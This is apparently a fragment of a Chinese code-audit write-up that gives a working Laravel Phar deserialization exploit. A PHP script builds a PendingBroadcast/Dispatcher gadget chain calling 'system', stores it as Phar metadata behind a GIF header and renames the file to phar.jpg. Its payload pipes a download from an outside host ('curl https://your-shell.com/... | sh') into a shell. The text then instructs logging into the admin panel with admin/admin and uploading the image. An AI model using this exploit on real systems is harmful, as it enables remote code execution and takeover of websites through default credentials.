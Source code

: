```php
namespace{
    $command = new Illuminate\Broadcasting\BroadcastEvent('curl https://your-shell.com/49.232.206.37:23456 | sh');

    $dispater = new Illuminate\Bus\Dispatcher("system");

    $PendingBroadcast = new Illuminate\Broadcasting\PendingBroadcast($dispater,$command);
    $phar = new Phar('phar.phar');
    $phar -> stopBuffering();
    $phar->setStub("GIF89a"."<?php __HALT_COMPILER(); ?>"); 
    $phar -> addFromString('test.txt','test');
    $phar -> setMetadata($PendingBroadcast);
    $phar -> stopBuffering();
    rename('phar.phar','phar.jpg');

}
```

后台admin/admin登录

上传图片phar.jpg

![Untitled](%E4%BB%A3%E7%A0%81%E5%AE%A1%E8%AE%A1%206658870bb1d4438684d807c1b2ec69fb/Untitled%2029.png)

